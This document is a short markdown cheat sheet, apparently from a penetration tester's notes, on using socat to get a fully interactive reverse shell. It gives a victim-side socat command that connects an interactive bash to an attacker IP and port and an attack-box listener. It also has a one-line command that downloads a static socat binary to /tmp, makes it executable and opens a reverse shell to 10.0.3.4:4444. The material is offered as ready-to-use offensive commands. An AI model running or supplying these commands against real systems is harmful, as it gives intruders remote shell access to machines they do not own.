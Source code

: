 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## socat
[socat](https://linux.die.net/man/1/socat) is similar to netcat but offers some additional features, like port forwarding to connected serial devices. One particular use is to  [upgrade a shell to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat). The standalone binary of *socat* can be transferred to a target for a more stable reverse shell connection.

## Create a socat TTY reverse shell
On the victim (with socat installed):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[atkbox IP]:[port]
```
On attack box, listen with:
```
socat file:`tty`,raw,echo=0 tcp-listen:[port]
```

## Install socat, chmod it, exec TTY reverse shell
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
1. This downloads socat from : [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries) to a writable directory
2. Chmod it to be exacutable
3. Then execute the reverse shell